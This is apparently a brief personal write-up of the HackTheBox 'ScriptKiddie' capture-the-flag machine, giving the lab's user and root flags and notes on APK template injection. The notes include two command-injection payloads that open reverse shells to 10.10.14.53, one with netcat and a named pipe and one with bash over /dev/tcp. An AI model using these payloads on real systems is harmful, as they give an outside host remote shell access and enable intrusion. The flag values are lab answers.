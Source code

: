 # HackTheBox ScriptKiddie

>ip = 10.10.10.226

>Saikat Karmakar | Feb 16:2021

--------------------------------------------------------------------------

1. user flag
```
24022ba18a1b1c956f7065016af1dd3b
```
2. root flag
```
bc30a0691370153bb9bc6a96f59653bb
```

--
---------
**Notes**
---------
initial info -> apk template injection


//doesn't work don't know why

echo "a b ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.53 4242 >/tmp/f # " > hackers


//this works

echo '1 2 ;/bin/bash -c "bash -i >& /dev/tcp/10.10.14.53/9999 0>&1" #' >>hackers
--------------------------------------------------------------------------